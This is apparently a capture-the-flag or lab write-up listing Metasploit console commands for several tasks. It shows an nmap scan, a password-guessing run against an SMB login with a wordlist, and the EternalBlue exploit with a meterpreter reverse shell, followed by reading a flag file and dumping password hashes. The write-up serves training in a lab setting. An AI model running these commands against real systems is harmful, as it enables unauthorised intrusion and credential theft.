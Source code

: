 ## Task-01
```sh
> sudo nmap -sS -sV IP
> search smb_login
> use auxiliary/scanner/smb/smb_login
> show options
> set rhosts IP
> set RPORT port_no
> set SMBUser penny
> set PASS_File /home/kali/Downloads/MetasploitWordlist-1632491116676.txt
```

## Task-04

```sh
> search auxiliary/scannr/smtp
```
This will provide us payloads and exploits available for smtp.

## Task-05
```sh
> search ms17
> use exploit/windows/smb/ms17_010_eternalblue
> set payload payload/windows/x64/meterpreter/reverse_tcp
> show options
> set rhosts
> set lhost
> exploit or run
> sessions -i 1
> pwd
> search -f flag.txt
> cat "c:\Users\Jon\Documents\flag.txt"
> hashdump
```
